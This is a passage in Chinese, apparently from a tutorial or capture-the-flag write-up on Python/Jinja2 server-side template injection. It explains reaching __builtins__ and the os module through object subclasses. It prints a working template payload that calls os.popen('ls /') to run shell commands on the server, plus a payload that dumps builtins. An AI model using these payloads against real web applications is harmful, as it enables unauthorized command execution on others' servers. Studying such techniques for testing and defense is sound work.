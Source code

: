 我们可以看到，返回中的“`'__builtins__'`”有  **对象** (  `'xxx': <class 'xxx'>` ) ，也有 **内建函数** ( `<built-in function xxx>` )，再往后则有 **模块** (比如 `'_os': <module 'os' from '/usr/local/lib/python3.9/os.py'>`)：

当然这里的模块其实已经可以直接用了：`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['_os'].popen('ls /').read()}}`

![image-20231130190521154](./assets/image-20231130190521154.png)

不过到这就结束了未免太没意思，其实内建函数也有很多可用的方法，下面我们取出 `'__builtins__'` 的内容：

`{{''.__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['__builtins__']}}`
